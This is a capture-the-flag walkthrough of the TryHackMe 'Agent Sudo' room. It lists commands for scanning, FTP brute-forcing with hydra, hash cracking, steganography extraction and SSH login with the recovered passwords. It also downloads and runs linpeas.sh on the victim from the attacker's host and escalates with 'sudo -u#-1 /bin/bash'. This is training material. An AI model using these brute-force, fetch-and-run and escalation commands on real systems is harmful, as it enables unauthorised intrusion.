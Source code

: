 # Agent Sudo

**Room Link:** [https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)



## Enumerate

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

```
nmap -p- $VICTIM
```

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

### Burp

Change the user-agent to C

**From**

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**To**

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## Hash cracking and brute-force

### TCP/21 - FTP&#x20;

**Kali**

```
hydra -l chris -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt ftp://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ftp $VICTIM
Username: chris
Password: crystal
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
binwalk cutie.png 
binwalk cutie.png -e
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
zip2john 8702.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
7z e 8702.zip
Password: alien
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### Cyber Chef

Link: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf cute-alien.jpg
Password: Alien51
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh james@$VICTIM
Password: hackerrules!
```

**Victim**

```
ls
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
scp james@$VICTIM:/home/james/Alien_autospy.jpg .
```

### LinPeas

Linpeas found that sudo is vulnerable, so I looked at the version online and found a way to escalate my privilege's.&#x20;

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Link:** [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**Victim**

```
sudo -u#-1 /bin/bash
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>





















